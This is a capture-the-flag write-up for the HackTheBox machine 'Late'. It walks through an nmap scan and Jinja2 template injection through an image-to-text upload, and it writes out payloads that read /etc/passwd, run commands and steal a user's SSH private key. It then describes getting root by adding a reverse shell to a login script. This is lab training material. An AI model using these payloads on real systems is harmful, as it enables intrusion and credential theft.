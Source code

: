 # HackTheBox - Late

## NMAP

```bash
Nmap scan report for 10.10.11.156
Host is up (0.14s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 02:5e:29:0e:a3:af:4e:72:9d:a4:fe:0d:cb:5d:83:07 (RSA)
|   256 41:e1:fe:03:a5:c7:97:c4:d5:16:77:f3:41:0c:e9:fb (ECDSA)
|_  256 28:39:46:98:17:1e:46:1a:1e:a1:ab:3b:9a:57:70:48 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-favicon: Unknown favicon MD5: 1575FDF0E164C3DB0739CF05D9315BDF
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Late - Best online image tools
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```


## PORT 80 (HTTP)

On port 80 it's nginx hosting a web page having a domain `images.late.htb`

<img src="https://i.imgur.com/evcrfB1.png"/>

<img src="https://i.imgur.com/8mcfyy0.png"/>

Let's add the domain name in `/etc/hosts` file

<img src="https://i.imgur.com/flHcBKo.png"/>

<img src="https://i.imgur.com/wv1EgOh.png"/>

So here let's try uploading an image with a text and see if it actually converts the image into text form

<img src="https://i.imgur.com/PodDzYJ.png"/>

I grabbed this image for the test and after uploading, we get a file name `results.txt` with the image text

<img src="https://i.imgur.com/sVFID89.png"/>

## Foothold

We can now try to test for SSTI since this a flask application as the main page says, jinja2 is normally used for templates, we can try `{{7*'7'}}`  and if it returns 7777777 then it's vulnerable to SSTI and is using jinja2 else it would return 49 if it would be using twig 

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2---basic-injection

So to make this work, we can take a screenshot of `{{7*'7'}}` on a text editor and save it as an image

<img src="https://i.imgur.com/YSromP7.png"/>

<img src="https://i.imgur.com/rX25Rdv.png"/>

It works, now it's time to test for command execution. We can use this payload to test if we can can read files

<img src="https://i.imgur.com/jWl1y7w.png"/>

```bash
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}

```

After uploading this we get the `/etc/passwd` file

<img src="https://i.imgur.com/ZCqQx2L.png"/>

Now we can't get a reverse shell from where even tho we can execute commands with 

```bash
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
```

Which would return us 

<img src="https://i.imgur.com/J0BujLE.png"/>

Instead we can grab the ssh key for `svc_acc`

```bash
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat /home/svc_acc/.ssh/id_rsa').read() }}
```

<img src="https://i.imgur.com/ZMbjm7x.png"/>

<img src="https://i.imgur.com/9enwoWJ.png"/>

After getting shell, we can check what's running in the background for that we can use `pspy`

<img src="https://i.imgur.com/3hstUUU.png"/>

<img src="https://i.imgur.com/ZkOhugq.png"/>

On looking at the script it looks like a normal ssh alert which is sent to root'users mail but if we notice in pspy that script is being executed whenever we login through ssh

<img src="https://i.imgur.com/XpvyPlJ.png"/>

So we just need to add shell commands to it and it will be executed, so I'll be adding a bash reverse shell

<img src="https://i.imgur.com/J22tBZ6.png"/>

After logging in back the script will be executed and we'll have our reverse shell as root user

<img src="https://i.imgur.com/K0f7Hr7.png"/>

## References
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2---basic-injection
- https://www.geeksforgeeks.org/chattr-command-in-linux-with-examples/
